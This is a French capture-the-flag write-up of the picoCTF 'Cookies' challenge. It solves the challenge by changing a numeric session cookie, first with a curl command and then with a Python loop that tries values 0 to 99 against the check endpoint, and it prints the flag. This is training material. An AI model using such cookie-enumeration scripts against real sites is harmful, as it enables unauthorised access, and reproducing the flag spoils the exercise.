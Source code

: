 # Cookies

## 0x1 Description

>Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:17781/

## 0x2 Analyse

Encore une fois, la description est très explicite, nous allons devoir jouer avec les cookies et il y en aura surement un meilleur que les autres

Après avoir entré le nom du premier biscuit qu'ils nous propose, nous avons la structure du cookie qui nous est donnée:

![Cookie's structure](./IMG/cookie.png)

Pas besoin d'être un génie pour comprendre qu'il va falloir incrémenter la valeur contenue dans **name**

## 0x3 Résolution avec cURL

Le principe est de faire une petite boucle qui va incrémenter la valeur et appeler la vérification avec cette donnée.

Ce qui donne après quelques itérations le résultat suivant:

>curl --cookie "name=18" http://mercury.picoctf.net:17781/check
>
>flag = picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}

## 0x4 Vérification avec Cookie Quick Manager

Avec n'importe quel éditeur de cookie, vous pouvez le modifier et une fois la page rechargée voir apparaitre la solution:

![flag](./IMG/flag.png)

## 0x5 Résolution avec un script en python

Comme expliqué , nous allons faire une boucle qui testera toutes les possibilité de cookie, pour ce faire, voici le code que j'ai écrit:

```python
#!/usr/bin/env python

import pwn
import requests
import re

regex = "picoCTF{.*?}"
url = "http://mercury.picoctf.net:17781/check"
s = requests.Session()

def Exploit():
    pwn.log.progress("Searching for the flag")
    for miaou in range (0,100):
        cookies = {'name': str(miaou)}
        req = s.get(url, cookies=cookies)
        req = req.content
        result = re.findall(regex, str(req))
        flag = result
        if result:
            for f in flag:
                pwn.warn("Cookie was: {}".format(cookies))
                pwn.success("Flag is: {}".format(f))
            return

if __name__ == "__main__":
    Exploit()
```
